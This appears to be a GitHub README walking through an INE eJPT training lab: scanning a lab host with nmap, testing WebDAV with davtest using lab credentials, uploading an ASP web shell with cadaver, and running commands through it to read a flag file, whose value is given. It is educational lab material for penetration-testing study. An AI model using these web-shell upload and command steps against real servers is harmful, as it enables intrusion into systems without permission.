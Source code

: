 # Vulnerability Assessment - WebDAV Exploitation Walkthrough

This document outlines a step-by-step walkthrough for exploiting a vulnerable WebDAV service to retrieve a flag during the **eJPT Vulnerability Assessment** lab.

> **Lab URL:**
> [https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688](https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688)

---

## 📁 Challenge Details

* **Category:** Vulnerability Assessment
* **Target:** `demo.ine.local`
* **Goal:** Exploit WebDAV to retrieve the final flag

---

## 🔎 Step 1: Initial Port Scan

We start with a basic port scan using Nmap:

```bash
nmap demo.ine.local
```

![Step 1](.Screeenshots/1.png)

Identified services:

* HTTP on port 80
* SMB on ports 139 and 445
* MySQL on 3306
* RDP on 3389

---

## 🔍 Step 2: Web Enumeration with Nmap Scripts

We enumerate the HTTP service with the `http-enum` script:

```bash
nmap --script http-enum -sV -p 80 demo.ine.local
```

![Step 2](./2.png)

Revealed the presence of `/webdav/` directory, which is potentially vulnerable.

---

## ⚙️ Step 3: Check WebDAV with `davtest`

First, test if the DAV connection is allowed:

```bash
davtest --url http://demo.ine.local/webdav
```

![Step 3](./3.png)

It responded as **open but unauthorized**.

---

## 🔐 Step 4: Authenticated WebDAV Test

Now try authenticated testing using provided credentials:

```bash
davtest --auth bob:password_123321 --url http://demo.ine.local/webdav
```

![Step 4](./4.png)

This succeeded in creating a directory and uploading various file types. The server allowed execution of `.txt`, `.html`, and `.asp`.

---

## 📊 Step 5: Review Summary Output

We review which files executed successfully:

![Step 5](./5.png)

`.txt`, `.html`, and `.asp` file types were confirmed executable.

---

## 🔧 Step 6: Upload Web Shell with Cadaver

Now we use `cadaver` to interactively upload a reverse shell:

```bash
cadaver http://demo.ine.local/webdav
```

![Step 6](./6.png)

Uploaded: `webshell.asp`

---

## 🔎 Step 7: Authenticate in Browser

Visit the WebDAV directory in Firefox:

![Step 7](./7.png)

Login with username: `bob`, password: `password_123321`

---

## 🔢 Step 8: Command Execution via Web Shell

We access the shell and execute:

```bash
http://demo.ine.local/webdav/webshell.asp?cmd=whoami
```

![Step 8](./8.png)

Successfully ran remote commands as `iis apppool\\defaultapppool`

---

## 📚 Step 9: Locate the Flag

Now we browse the system to locate the flag file:

```bash
cmd=dir C:\
```

![Step 9](./11.png)

Found file: `flag.txt`

Retrieve the flag with:

```bash
cmd=type C:\flag.txt
```

![Step 10](./12.png)

**FLAG:** `9cc175b9c0f1b6a831c399e269772661`

---

## 🕊️ Summary

This challenge involved:

1. Scanning for open services
2. Discovering and verifying WebDAV access
3. Exploiting file upload and execution via DAV
4. Uploading and executing a web shell
5. Reading the flag from the system drive

---

**Disclaimer:** This test was conducted in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.

---

**🔗 [Back to eJPT CTF Challenges Repo](https://github.com/sara5521/eJPT-CTF-Challenges)**
